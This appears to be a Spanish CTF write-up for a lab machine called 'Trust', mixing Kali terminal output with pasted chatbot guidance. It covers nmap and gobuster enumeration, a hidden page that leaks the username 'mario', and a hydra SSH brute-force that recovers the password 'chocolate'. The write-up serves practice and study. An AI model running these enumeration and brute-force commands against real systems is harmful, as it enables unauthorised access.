 # Máquina Trust

**IP**: 172.17.0.2

## Fase de Reconocimiento

### 1. Ping
- La máquina responde correctamente:
┌──(pol㉿kali)-[~]
└─$ ping 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.133 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.080 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.082 ms
64 bytes from 172.17.0.2: icmp_seq=4 ttl=64 time=0.069 ms
^C
--- 172.17.0.2 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3061ms
rtt min/avg/max/mdev = 0.069/0.091/0.133/0.024 ms

###   Fase 1: Reconocimiento
1. Escaneo básico con Nmap
Vamos a identificar los puertos abiertos en la máquina.

Ejecuta:

bash
Copy
nmap 172.17.0.2                                                

┌──(pol㉿kali)-[~]
└─$ nmap 172.17.0.2  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 18:50 -03
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds

1. Escaneo avanzado con Nmap
Vamos a obtener más detalles sobre los servicios y el sistema operativo.

Ejecuta:

bash
Copy
nmap -sV -O 172.17.0.2

┌──(pol㉿kali)-[~]
└─$ nmap -sV -O 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 18:52 -03
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds

### ¡Perfecto! El escaneo avanzado con Nmap nos ha dado información muy útil sobre la máquina 172.17.0.2. Vamos a analizar los resultados y continuar paso a paso.

Resultados del escaneo avanzado
Servicios y versiones:

Puerto 22/tcp:

Servicio: SSH

Versión: OpenSSH 9.2p1 Debian 2+deb12u2 (protocolo 2.0).

Puerto 80/tcp:

Servicio: HTTP

Versión: Apache httpd 2.4.57 (Debian).

Sistema operativo:

Sistema operativo: Linux (kernel 4.x o 5.x).

Detalles: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4).

Distancia de red:

La máquina está a 1 hop de distancia (es decir, está en la misma red local).

Fase 2: Análisis de servicios
1. Servicio SSH (puerto 22)
OpenSSH 9.2p1 es una versión relativamente reciente y segura. Es poco probable que tenga vulnerabilidades explotables directamente.

Sin embargo, podemos intentar un ataque de fuerza bruta si encontramos un nombre de usuario válido (por ejemplo, admin, root, user).

2. Servicio HTTP (puerto 80)
Apache 2.4.57 es una versión reciente, pero siempre es recomendable buscar vulnerabilidades específicas.

Vamos a investigar el servidor web para ver si hay directorios ocultos, archivos sensibles o aplicaciones web vulnerables.

Próximos pasos
Investigar el servidor web (puerto 80):

Usaremos curl o un navegador para ver qué hay en la página principal.

Luego, escanearemos directorios con una herramienta como gobuster para encontrar rutas ocultas.

Buscar vulnerabilidades en los servicios:

Revisaremos si hay exploits públicos para las versiones de Apache y OpenSSH.

Paso 1: Investigar el servidor web
1. Acceder a la página principal
Ejecuta:

bash
curl http://172.17.0.2


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Apache2 Debian Default Page: It works</title>
    <style type="text/css" media="screen">
  * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }
.....

### markdown
Copy
### 4. Análisis del servicio HTTP
- Accedí al servidor web en el puerto 80.
- La página muestra: [Aquí pega el contenido que obtengas].
2. Escaneo de directorios con Gobuster
Ejecuta:

bash
Copy
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt .php, .txt, .py, 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 275]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
### ¡Gracias por compartir los resultados! Gobuster ha encontrado un directorio interesante:

/server-status: Este directorio devuelve un código de estado 403 (Prohibido), lo que significa que no tenemos acceso a él. Esto es común en servidores Apache, ya que /server-status suele estar restringido por razones de seguridad.

Análisis de los resultados
/server-status:

Este directorio es utilizado por Apache para mostrar el estado del servidor (por ejemplo, solicitudes activas, estadísticas, etc.).

El código 403 indica que el acceso está prohibido, lo cual es una configuración típica para evitar que usuarios no autorizados vean información sensible.

No se encontraron otros directorios:

Gobuster no encontró otros directorios o rutas accesibles en el servidor web. Esto sugiere que el servidor puede estar configurado de manera minimalista o que los directorios están ocultos detrás de nombres no comunes.

Próximos pasos
Investigar la página principal:

Aunque no se encontraron directorios adicionales, es importante revisar la página principal del servidor web (http://172.17.0.2) para ver si hay pistas o información útil.

Usa curl o abre la página en un navegador:

bash
Copy
curl http://172.17.0.2
Revisar el código fuente:

Si hay una página web, revisa su código fuente en busca de comentarios, enlaces ocultos o credenciales.

Buscar subdominios o virtual hosts:

A veces, los servidores web tienen múltiples sitios alojados en el mismo IP. Podemos intentar descubrir subdominios o virtual hosts.

Investigar el servicio SSH:

Dado que el servidor web no ha revelado mucha información, podemos enfocarnos en el servicio SSH (puerto 22) para intentar acceder al sistema.

Pregunta:
¿Quieres que continuemos con la investigación de la página principal usando curl, o prefieres explorar otra área (como SSH o subdominios)?

¡Espero tu respuesta para seguir avanzando! 😊
#
Buena idea! Agregar extensiones como .php, .txt, y .py al escaneo de Gobuster puede ayudarnos a descubrir archivos específicos que no aparecen en un escaneo de directorios estándar. Vamos a ejecutar Gobuster con esas extensiones y ver si encontramos algo interesante.

Paso 1: Ejecutar Gobuster con extensiones
Ejecuta el siguiente comando:

bash
Copy

gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.py

Explicación de los parámetros:
-u http://172.17.0.2: Especifica la URL objetivo.

-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt: Usa la lista de palabras de Seclists.

-x .php,.txt,.py: Busca archivos con estas extensiones.

Paso 2: Analizar los resultados
Una vez que Gobuster termine, revisaremos los resultados. Por ejemplo, si encuentra algo como:

Copy
/index.php            (Status: 200) [Size: 1234]
/secret.txt           (Status: 200) [Size: 567]
/admin.php            (Status: 301) [Size: 0]
Podemos investigar esos archivos para ver si contienen información útil.

Pregunta:
¿Quieres que ejecute el comando de Gobuster con las extensiones y te muestre los resultados, o prefieres hacerlo tú mismo y luego continuamos con el análisis?

¡Espero tu respuesta! 😊


┌──(pol㉿kali)-[/usr/share/seclists]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882236 / 882240 (100.00%)
===============================================================
Finished
===============================================================

### ¡Excelente! Gobuster ha encontrado un archivo interesante: /secret.php con un código de estado 200 (OK), lo que significa que es accesible. Vamos a investigar este archivo para ver si contiene información útil.

Análisis de los resultados
/secret.php:

Este archivo podría contener información sensible, como credenciales, mensajes ocultos o incluso una puerta trasera.

Vamos a acceder a él usando curl o un navegador.

Otros resultados:

/.php y /server-status devuelven un código 403 (Prohibido), lo que significa que no tenemos acceso a ellos.

Paso 1: Investigar /secret.php
1. Acceder al archivo /secret.php
Ejecuta:

bash
Copy
curl http://172.17.0.2/secret.php

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>¡Secreto!</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background-color: #fff;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #333;
        }
        p {
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Hola Mario,</h1>
        <p>Esta web no se puede hackear.</p>
    </div>
</body>
</html>

### Próximos pasos
┌──(pol㉿kali)-[/usr/share/seclists]
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-06 19:38:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-06 19:38:24



